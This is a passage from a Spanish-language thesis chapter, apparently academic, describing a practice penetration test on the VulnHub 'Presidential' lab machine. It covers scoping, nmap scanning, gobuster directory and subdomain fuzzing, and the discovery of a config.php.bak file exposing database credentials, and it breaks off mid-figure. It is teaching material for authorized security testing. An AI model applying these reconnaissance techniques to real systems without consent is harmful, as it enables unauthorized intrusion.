\chapter{Estudio práctico del test de penetración}

Para finalizar el proyecto, en este capítulo se describirá el desarrollo de un caso práctico de test de penetración de sistemas. Para este caso práctico se ha desplegado una máquina virtual con una imagen que contiene vulnerabilidades que se han enumerado y explotado. 

\section{Objetivo del estudio}

Ya se han descrito anteriormente algunas plataformas con máquinas vulnerables para practicar técnicas de penetración de sistemas. Para este caso práctico se ha utilizado una máquina de \textbf{vulnhub} llamada `Presidential'.

Se han comparado varias máquinas virtuales disponibles con idea de seleccionar una cuya dificultad sea de un nivel intermedio. También se ha intentado priorizar aquellas máquinas que ofrezcan un ambiente realista sobre otras que tengan una estética de `capturar la bandera'. 


\begin{figure}[!hbt]
  \centering
  
\includegraphics[width=0.5\textwidth]{imagenes/presidentialweb.png}
  \caption{Captura de pantalla de la página inicial de la web alojada en la máquina `Presidential'}
   \label{presidentialweb}
\end{figure}



\begin{tcolorbox}[coltitle=blue!50!black,colframe=blue!25,title=Descripción de la máquina Presidential 1]
The Presidential Elections within the USA are just around the corner (November 2020). One of the political parties is concerned that the other political party is going to perform electoral fraud by hacking into the registration system, and falsifying the votes.

The state of Ontario has therefore asked you (an independent penetration tester) to test the security of their server in order to alleviate any electoral fraud concerns. Your goal is to see if you can gain root access to the server – the state is still developing their registration website but has asked you to test their server security before the website and registration system are launched.

\tcblower

Las elecciones presidenciales de Estados Unidos están a la vuelta de la esquina (Noviembre 2020). Uno de los partidos políticos está preocupado por la posibilidad de que otro de los partidos lleve a cabo un fraude electoral hackeando el sistema de registro y falsificando los votos.

El estado de Ontairo te ha contratado a ti (un hacker ético independiente) para poner a prueba la seguridad de su servidor para evitar el posible fraude electoral. Tu objetivo es intentar conseguir privilegios de administrador en el servidor. El estado aún está desarrollando el servicio de registro pero te han pedido que termines de asegurar la seguridad del sistema antes de que el servicio de registro se ponga en marcha.

\end{tcolorbox}

Esta máquina\footnote{\url{HTTPs://www.vulnhub.com/entry/presidential-1,500/}} está marcada como de una dificultad `intermedia-difícil`, tiene buenas críticas en foros y blogs de internet y además existen varios reportes públicos explicando como explotar las vulnerabilidades de la máquina que pueden usarse para comparar distintos métodos.

Además, la descripción de la máquina muestra una estética un poco más realista y que intenta imitar un posible trabajo real en lugar de ser simplemente un juego de `capturar la bandera'.


\section{Test de penetración}

En esta Sección se describe el estudio realizado sobre la máquina seleccionada, basado en las fases descritas en el Capítulo \ref{cap:Fundamentos} y utilizando las herramientas típicas del ámbito de hacking ético.


\subsection{Puesta a punto (pre-engagement)}

En la primera fase, se debería contactar con el cliente y definir el ámbito de la auditoría, \textbf{los objetivos} y aquellos elementos que se van a probar, cuanto tiempo se va a dedicar, entre otros. Se propone un ejemplo de acuerdo de consentimiento y limitación de la responsabilidad en el apéndice \ref{acuerdo}.

En este caso en concreto el sistema a probar es el \textbf{servidor web} que aloja la página de un partido político (cliente). 

El ámbito, pues, se limita a investigar fallos en el servicio web (figura \ref{presidentialweb}), que permitan hacer un mal uso de el mismo o en el servidor que aloja la página. 

Aquí podríamos comprometernos a probar algunos aspectos específicos como la existencia de vulnerabilidades en el servicio SQL de la web, la integridad de los credenciales de administración (resistencia a fuerza bruta) etc... 

También se aclararía el tiempo destinado al test, así como los objetivos o requisitos del informe a presentar. Como parte del proyecto se centra en aplicar Wazuh a la auditoría, aquí \textbf{debería especificarse un compromiso de entrega de logs generados utilizando Wazuh}, así como un \textbf{compromiso de evaluar el rendimiento de la instalación existente de Wazuh en el host analizado}.

Por último: un detalle interesante en estas auditorías es si contemplan o no técnicas de ingeniería social o ataques `físicos". Por ejemplo, un hacker ético podría intentar entrar a una oficina de la empresa y acceder así a los servicios de la misma en lugar de hacer el ataque completamente en remoto, o podría intentar conseguir acceso a información o credenciales tratando de hackear a los empleados o utilizando técnicas de \Glspl{phishing}. En este caso, dado que se trata de una compañía ficticia y una simple máquina, todo esto no tiene sentido y no se ha tenido en cuenta, pero es un aspecto a considerar en un trabajo real.

\subsection{Recopilación de información}

A continuación se ha de buscar toda la información posible sobre la empresa y los servicios que se ha de probar. 

Como se trata de un servicio web, se puede entrar al mismo y navegar por él para encontrar información de interés. En la Figura \ref{info_web1} podemos ver algunos ejemplos de información disponible en la propia página web.

\begin{figure}[!hbt]
  \centering
  
\includegraphics[width=0.5\textwidth]{imagenes/captura_email.png}
  \caption{Ejemplo de información extraíble de la propia web que estamos monitorizando. Una dirección de correo, un teléfono y una dirección física que pueden ser susceptibles de ser explotadas en nuestro beneficio.}
  \label{info_web1}
\end{figure}

También sería interesante realizar un escaneo de la web, existen múltiples herramientas para hacer esto según lo que se quiera obtener, para el caso vamos a utilizar las tres siguientes:

\begin{itemize}
    \item \textbf{nmap} para un escaneo de puertos que responda a las preguntas: ¿qué servicios se están ejecutando en el servidor? ¿Qué software? ¿Qué versiones? ¿En qué puertos? ¿Con qué protocolos? 
    \item \textbf{gobuster} para web \gls{Fuzzing}, enumeración de archivos y directorios alojados en el servidor web con la intención de extraer información sobre su funcionamiento y posibles vulnerabilidades.
    \item \textbf{searchsploit} para búsqueda de vulnerabilidades en el software.
\end{itemize}

\subsubsection{Escaneo de puertos}

Uno de los puntos esenciales de las auditorías de seguridad es el escaneo de puertos. Utilizando herramientas como \textbf{nmap} y gracias a las reglas desarrolladas anteriormente se podría indexar los resultados en Elasticsearch para que sean fácilmente accesibles. 


\begin{figure}[!hbt]
  \centering
  
\includegraphics[width=\textwidth]{imagenes/nmap1.png}
  
\includegraphics[width=\textwidth]{imagenes/nmap2.png}  
  \caption{Ejemplo del resultado de un escaneo de puertos realizado en el terminal con Xonsh. Podemos comprobar que están activos los servicios SSH (en el puerto 2082) y HTTP (en el puerto 80). Así mismo, podemos observar como la ejecución de este comando ha quedado registrada en el historial de Xonsh y enviada a Wazuh para ser decodificada e indexada en Elasticsearch de forma `enriquecida'.}
  \label{nmapA}
\end{figure}


\subsubsection{Web \gls{Fuzzing}}

Como se contempla en la Figura \ref{nmapA}, el escaneo de puertos usando nmap nos indica que se trata de un servidor web $Apache HTTPd 2.4.6$ corriendo en el puerto por defecto (80) y además existe un servicio SSH en el puerto 2082. Es por esto que el siguiente paso a realizar será probablemente una enumeración de archivos y directorios alojados en el servidor. Utilizando herramientas de Fluzzing como \textit{gobuster} o \textbf{ffuf}.


\begin{figure}[!hbt]
  \centering
  \label{gobuster1}
  
\includegraphics[width=\textwidth]{imagenes/gobuster1.png}
  \caption{Primer análisis y enumeración de ficheros y directorios web usando Gobuster. De este escaneo podemos averiguar, por ejemplo, que existe una página `about' que quizá no era accesible directamente desde la web. También existe una página `config.php' está vacía. Aquellas páginas cuyo código de respuesta es 300 o derivados son páginas que parecen existir pero que requieren permisos especiales para acceder.}
\end{figure}

\begin{figure}[!hbt]
  \centering
  
\includegraphics[width=0.7\textwidth]{imagenes/team.png}
  \caption{Ejemplo de información extraíble de la propia web que estamos monitorizando. En este caso, en la página `about' encontramos información sobre quiénes son los miembros del equipo que mantiene la web, de aquí podemos extraer por ejemplo posibles nombres de usuarios para intentar un ataque por fuerza bruta.}
   \label{info_web2}
\end{figure}


De la información extraída en el análisis que se muestra en la figura \label{gobuster1} sabemos que existe una página `about'. Analizándola podemos encontrar información sobre algunos miembros importantes del proyecto. Esta información \textbf{también será relevante}, pues nos da pistas de posibles nombres de usuarios y contraseñas (ver figura \ref{info_web2}). Respecto a la página `config.php', que parece vacía, podemos intuir que quizá exista un índice de alguna aplicación pero este se encuentre dentro de un subdominio distinto al principal.  De la información mencionada en la figura \ref{info_web2} podemos extraer que existe un dominio \textbf{votenow.local} que quizá contenga subdominios. Con la ayuda de alguna herramienta para enumeración de subdominios (podemos volver a utilizar gobuster o utilizar otra herramienta como ffuf) nos llevará a descubrir un subdominio llamado `datasafe.votenow.local` y en ella, un servicio de \textbf{phpmyadmin}.

\begin{figure}[!hbt]
  \centering
  
\includegraphics[width=\textwidth]{imagenes/php.back.png}
  \caption{En esta captura se puede apreciar como un escrutinio con un diccionario más grande y aumentando las extensiones buscadas por gobuster podemos encontrar otros archivos de interés, entre ellos, especialmente el archivo `config.php.bak` que contiene credenciales de acceso a la base de datos del servidor.}
   \label{php.back}
\end{figure}


Después de investigar un poco mejor el dominio y subdominio y de un escrutinio con escaneo de directorios y archivos más profundo (añadiendo extensiones como `.bak') podemos descubrir un fichero en la dirección: $$HTTP://votenow.local/config.php.bak$$ que (pese a parecer vacío), contiene en un comentario del código fuente unas credenciales de acceso a la base de datos del servidor.

\begin{figure}[!hbt]
  \centering
